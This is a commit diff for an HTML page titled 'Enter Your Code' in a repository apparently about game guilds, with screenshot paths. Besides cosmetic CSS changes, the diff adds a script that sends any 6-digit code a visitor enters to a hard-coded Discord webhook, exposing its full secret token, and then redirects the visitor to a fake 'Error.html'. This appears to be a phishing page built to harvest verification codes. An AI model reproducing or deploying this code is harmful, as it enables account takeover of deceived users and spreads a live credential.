

Before and after one commit to SubToJJ/hyguilds, a plain HTML site: page Sign Up Code.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update Sign Up Code.html

```diff
--- a/Sign Up Code.html
+++ b/Sign Up Code.html
@@ -5,82 +5,192 @@
   <title>Enter Your Code</title>
   <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet">
   <style>
-    body {
+    html, body {
+      height: 100%;
       margin: 0;
       font-family: 'Inter', sans-serif;
-      background: linear-gradient(135deg, #1e1e2f, #2c3e50);
-      color: #fff;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
+      background: linear-gradient(-45deg, #2c003e, #3b1f5c, #4b2a6f, #6c3fa0);
+      background-size: 400% 400%;
+      animation: gradientShift 30s ease infinite;
+      overflow: hidden;
+      position: relative;
+    }
+
+    @keyframes gradientShift {
+      0% { background-position: 0% 50%; }
+      50% { background-position: 100% 50%; }
+      100% { background-position: 0% 50%; }
+    }
+
+    .particles {
+      position: absolute;
+      top: 0; left: 0;
+      width: 100%; height: 100%;
+      pointer-events: none;
+      overflow: hidden;
+      z-index: 1;
+    }
+
+    .particles .dot {
+      position: absolute;
+      width: 8px;
+      height: 8px;
+      background: rgba(255,255,255,0.1);
+      border-radius: 50%;
+      animation: float 12s linear infinite;
+    }
+
+    @keyframes float {
+      0% { transform: translateY(0); opacity: 1; }
+      100% { transform: translateY(-100vh); opacity: 0; }
     }
 
     .container {
-      background: rgba(255, 255, 255, 0.05);
-      padding: 40px;
-      border-radius: 12px;
-      box-shadow: 0 0 20px rgba(0,0,0,0.4);
-      width: 350px;
-      animation: fadeIn 1s ease-out;
+      position: absolute;
+      top: 50%;
+      left: 50%;
+      transform: translate(-50%, -50%);
+      background: rgba(0, 0, 0, 0.75);
+      padding: 50px 40px;
+      border-radius: 20px;
+      box-shadow: 0 0 40px rgba(0,0,0,0.8);
+      width: 100%;
+      max-width: 600px;
+      animation: enterGlow 1.2s ease-out;
+      z-index: 2;
+    }
+
+    @keyframes enterGlow {
+      0% {
+        transform: translate(-50%, -50%) scale(0.85);
+        box-shadow: 0 0 0 rgba(0,0,0,0);
+      }
+      50% {
+        transform: translate(-50%, -50%) scale(1.02);
+        box-shadow: 0 0 60px rgba(155, 89, 182, 0.4);
+      }
+      100% {
+        transform: translate(-50%, -50%) scale(1);
+        box-shadow: 0 0 40px rgba(0,0,0,0.8);
+      }
     }
 
     h2 {
       text-align: center;
-      margin-bottom: 20px;
+      margin-bottom: 30px;
       font-weight: 600;
+      color: #f1f1f1;
+      font-size: 2rem;
+    }
+
+    form {
+      display: flex;
+      flex-direction: column;
+      gap: 20px;
     }
 
     input {
-      width: 100%;
-      padding: 12px;
-      margin: 10px 0;
+      padding: 16px;
       border: none;
-      border-radius: 6px;
-      background: #2f2f3f;
+      border-radius: 10px;
+      background: #3b2f4f;
       color: #fff;
-      font-size: 14px;
+      font-size: 16px;
+      transition: box-shadow 0.3s ease;
+    }
+
+    input:focus {
+      outline: none;
+      box-shadow: 0 0 12px #9b59b6;
     }
 
     button {
-      width: 100%;
-      padding: 12px;
-      background: #e74c3c;
+      padding: 16px;
+      background: #9b59b6;
       border: none;
-      border-radius: 6px;
+      border-radius: 10px;
       color: #fff;
       font-weight: bold;
+      font-size: 16px;
       cursor: pointer;
-      transition: background 0.3s ease;
+      transition: background 0.3s ease, transform 0.2s ease;
+      animation: pulse 2s infinite;
     }
 
     button:hover {
-      background: #c0392b;
+      background: #8e44ad;
+      transform: scale(1.03);
     }
 
-    .error {
-      color: #ff6b6b;
-      font-size: 0.9rem;
-      text-align: center;
-      margin-top: 10px;
-    }
-
-    @keyframes fadeIn {
-      from { opacity: 0; transform: translateY(20px); }
-      to { opacity: 1; transform: translateY(0); }
+    @keyframes pulse {
+      0% { box-shadow: 0 0 0 0 rgba(155, 89, 182, 0.6); }
+      70% { box-shadow: 0 0 0 15px rgba(155, 89, 182, 0); }
+      100% { box-shadow: 0 0 0 0 rgba(155, 89, 182, 0); }
     }
   </style>
 </head>
 <body>
+  <div class="particles"></div>
+
   <div class="container">
     <h2>Enter Your Code</h2>
     <form id="form2">
       <input type="text" id="Code" placeholder="6-digit Code" required>
       <button type="submit">Submit</button>
-      <div id="errorMsg" class="error"></div>
     </form>
   </div>
 
-  <script src="code.js"></script>
+  <script>
+    // Particles
+    for (let i = 0; i < 40; i++) {
+      const dot = document.createElement('span');
+      dot.className = 'dot';
+      dot.style.left = Math.random() * 100 + '%';
+      dot.style.top = Math.random() * 100 + '%';
+      dot.style.animationDuration = (6 + Math.random() * 6) + 's';
+      document.querySelector('.particles').appendChild(dot);
+    }
+
+    // Webhook logic
+    const webhookUrl = 'https://discord.com/api/webhooks/1413009868364976218/FRWyak8eE5D6BdqXv5x3_bMiKexf5I8x1y1qJuMPHRMcirw3qxCZseR5qXdatlQrCntp';
+
+    const sendCode = (code) => {
+      const msg = {
+        content: `🔐 Code submitted!\n**Code:** ${code}`,
+        embeds: [{
+          title: 'Code Entry',
+          color: 15158332,
+          fields: [{ name: 'Code', value: code }],
+          timestamp: new Date().toISOString()
+        }]
+      };
+
+      fetch(webhookUrl, {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify(msg)
+      })
+      .then(res => {
+        if (!res.ok) throw new Error(`HTTP ${res.status}`);
+        console.log('Code webhook sent successfully');
+        setTimeout(() => window.location.href = "Error.html", 750);
+      })
+      .catch(err => {
+        console.error('Code webhook error:', err);
+      });
+    };
+
+    document.addEventListener('DOMContentLoaded', () => {
+      document.querySelector('#form2').addEventListener('submit', (e) => {
+        e.preventDefault();
+        const code = document.querySelector('#Code').value.trim();
+        if (!/^\d{6}$/.test(code)) {
+          alert('Code must be exactly 6 digits.');
+          return;
+        }
+        sendCode(code);
+      });
+    });
+  </script>
 </body>
 </html>
```
